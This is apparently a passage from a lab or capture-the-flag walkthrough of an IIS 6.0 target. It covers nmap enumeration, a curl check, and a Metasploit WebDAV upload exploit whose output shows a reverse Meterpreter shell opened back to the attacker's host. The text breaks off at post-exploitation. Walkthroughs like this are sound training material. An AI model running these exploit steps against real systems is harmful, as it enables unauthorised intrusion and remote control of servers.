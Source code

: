 **Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.14
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
135/tcp open  msrpc  Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows_2003
```

### Step 2: Web Service Enumeration
Check the web service for version information.

**Command/Code:**
```bash
curl http://10.10.10.14/
```

**Output:**
```
<html>
<head>
<title>IIS 6.0</title>
</head>
<body>
<h1>Welcome to IIS 6.0</h1>
</body>
</html>
```

### Step 3: IIS Exploitation
Use Metasploit to exploit the IIS vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.10.10.14
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.14:80 - Connecting to the server...
[*] 10.10.10.14:80 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.14:32891) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.
